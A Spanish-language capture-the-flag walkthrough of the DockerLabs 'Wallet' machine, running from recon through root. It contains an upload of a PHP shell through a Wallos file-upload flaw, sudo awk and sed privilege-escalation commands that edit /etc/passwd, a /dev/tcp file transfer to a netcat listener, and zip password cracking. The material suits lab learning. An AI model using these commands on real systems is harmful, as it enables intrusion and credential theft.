

Hoy realizamos la maquina **Wallet** de la plataforma [DockerLabs](https://dockerlabs.es)

Autor: [Pylon & El Pingüino de Mario](https://www.youtube.com/@Pylonet)

Dificultad: Medio



# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sS -sV -sC --open --min-rate 5000 -n -Pn -p- -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Sun Dec 15 22:21:33 2024 as: nmap -sS -sV -sC --open --min-rate 5000 -n -Pn -p- -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2024-12-15 22:21:34 -03 for 8s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.59 ((Debian))
|_http-title: Wallet
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec 15 22:21:42 2024 -- 1 IP address (1 host up) scanned in 8.80 seconds
```

Al parecer nos enfrentamos a una maquina debian con un solo puerto abierto:

• `Puerto 80: Apache httpd 2.4.59`

Sabiendo esto continuamos desde el navegador.

Estando ahí, vemos una web que parece ser una plantilla, pero hay un botón que dice "Get A Quote" el cual si le damos, nos redirige a un dominio, el cual es `panel.wallet.dl`, por lo que continuamos agregándolo al `/etc/hosts`.

```css
172.17.0.2	panel.wallet.dl
```

Una vez estamos en la web de `panel.wallet.dl`, veremos un panel de registro, en el cual nos registramos con cualquier credencial y continuamos. Luego de iniciar sesión, vamos a `about.php`, y veremos que hay una linea que dice lo siguiente:

```css
Wallos v1.11.0
```

# Intrusión

Por lo que luego de buscar, encuentro que se pueden subir archivos a través de una [vulnerabilidad](https://www.exploit-db.com/exploits/51924). Sabiendo esto, nos aprovechamos de ella siguiendo los pasos de la exploit-db. Que en resumen, es ir a "New Subscription", en donde podemos elegir un logo para la suscripción, subimos la shell en php que tengamos, y luego con burpsuite capturamos la peticion. Finalmente la modificamos para que quede como en la página de exploit-db y listo, nuestra shell estará subida. (Principalmente lo que se debe modificar es que el codigo tenga lo siguiente al principio: `GIF89a;`)

# Escalada De Privilegios

### www-data

Estando dentro como www-data, realizamos un tratamiento de la tty, y al ejecutar `sudo -l`, veremos que podemos ejecutar el binario `awk` como el usuario "pylon", por lo que luego de buscar, para escalar simplemente debemos ejecutar el siguiente comando:

```css
sudo -u pylon awk 'BEGIN {system("/bin/bash")}'
```

### Pylon

Si vamos a la home del usuario pylon, veremos que hay un zip con contraseña, por lo que tendremos que pasarlo a nuestra maquina. Como python3 no está instalado, lo haremos usando `/dev/tcp`. Para esto, debemos escuchar en nuestra maquina usando `netcat` de la siguiente manera:

```css
nc -nlvp 2323 > archivo.zip
```

luego, en la maquina victima ejecutar el siguiente comando:

```css
cat secretitotraviesito.zip > /dev/tcp/172.17.0.1/2323
```

una vez lo hagamos, tendremos el zip en el host.

Ahora intentaremos sacar la contraseña usando `zip2john` y `john`, para esto primero sacamos el hash:

```css
zip2john archivo.zip > hash
```

y luego lo rompemos con `john` de la siguiente manera:

```css
john --wordlist=/opt/rockyou.txt hash
```

luego de hacerlo, nos dirá que la contraseña del zip es "`chocolate1`". Lo descomprimimos con `unzip` y al leer la nota que nos deja, vemos lo siguiente:

```css
pinguino:pinguinomaloteh
```

Por lo que ya tenemos credenciales para escalar al usuario `pinguino`.

### Pinguino

Siendo el usuario pinguino, podemos ejecutar `sed` como root, por lo que para escalar simplemente modificamos el `/etc/passwd` eliminando la x de root de la siguiente manera:

```css
sudo sed -i 's/root:x:/root::/g' /etc/passwd
```

luego, ejecutamos `su` y ya seremos root.

## Root


Gracias por leer :)